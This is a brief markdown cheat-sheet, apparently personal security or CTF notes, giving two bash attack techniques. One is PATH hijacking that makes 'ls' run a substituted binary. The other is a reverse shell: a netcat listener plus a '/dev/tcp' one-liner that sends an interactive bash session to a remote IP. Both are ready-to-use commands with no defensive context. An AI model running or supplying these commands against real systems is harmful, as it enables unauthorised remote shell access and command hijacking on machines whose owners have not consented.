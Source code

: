 # bash

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```


## Reverse shell with /dev/tcp

local listener with nc on port 8000

```text
nc -lvp 8000
```

use /dev/tcp to connect to 10.10.10.10 on port 8000 and redirect bash to it.

```text
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/8000 0>&1
```